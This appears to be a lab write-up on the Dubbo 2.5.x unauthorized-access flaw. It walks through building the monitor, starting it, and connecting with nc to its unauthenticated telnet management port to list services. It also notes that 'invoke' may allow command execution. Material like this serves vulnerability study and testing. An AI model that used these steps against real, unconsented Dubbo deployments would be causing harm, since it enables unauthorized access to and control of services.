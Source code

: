 # Dubbo Unauthorized Access Vulnerability

## Introduction to the vulnerability

Dubbo is an open source, high-performance service framework developed by Alibaba Inc. that enables applications to perform input and output functions via high-performance RPC, and can seamlessly integrate with the Spring framework. Dubbo has an unauthorized access vulnerability due to improper configuration.

## Environment setup

```
git clone https://github.com/alibaba/dubbo/tree/2.5.x
```

Enter the `dubbo-2.5.x` directory

Execute `mvn clean package -Dmaven.test.skip=true`, and the following results will be generated:

![image-20220726153013824](../../.gitbook/assets/image-20220726153013824.png)

In the `dubbo-2.5.x/dubbo-simple/dubbo-monitor-simple/target` directory, you will find `dubbo-monitor-simple-2.5.10-assembly.tar.gz` generated, extract this folder.

Check the configuration file, and you will see that the dubbo protocol port is 7070.

```
[root@localhost dubbo-monitor-simple-2.5.10]# cat conf/dubbo.properties 

dubbo.container=log4j,spring,registry,jetty
dubbo.application.name=simple-monitor
dubbo.application.owner=
dubbo.registry.address=multicast://224.5.6.7:1234
#dubbo.registry.address=zookeeper://127.0.0.1:2181
#dubbo.registry.address=redis://127.0.0.1:6379
#dubbo.registry.address=dubbo://127.0.0.1:9090
dubbo.protocol.port=7070
dubbo.jetty.port=8080
dubbo.jetty.directory=${user.home}/monitor
dubbo.charts.directory=${dubbo.jetty.directory}/charts
dubbo.statistics.directory=${user.home}/monitor/statistics
dubbo.log4j.file=logs/dubbo-monitor-simple.log

```

Start Dubbo

```
[root@localhost dubbo-monitor-simple-2.5.10]# bin/start.sh
```



## Vulnerability exploitation

Connect to port 7070 with `nc`, port 7070 allows you to perform various management tasks, such as checking the status of the registry, listing available services, and viewing the log level of the registry.

```
[root@localhost dubbo-monitor-simple-2.5.10]# nc 127.0.0.1 7070
ls
com.alibaba.dubbo.monitor.MonitorService
dubbo>help
Please input "help [command]" show detail.
 status [-l]                      - Show status.
 pwd                              - Print working default service.
 trace [service] [method] [times] - Trace the service.
 exit                             - Exit the telnet.
 help [command]                   - Show help.
 invoke [service.]method(args)    - Invoke the service method.
 count [service] [method] [times] - Count the service.
 clear [lines]                    - Clear screen.
 ls [-l] [service]                - List services and methods.
 log level                        - Change log level or show log 
 ps [-l] [port]                   - Print server ports and connections.
 cd [service]                     - Change default service.
dubbo>status
OK
dubbo>pwd
/
```

> If the service has command execution capability, the "invoke" command may execute commands as the "invoke" command is used to invoke specific service methods.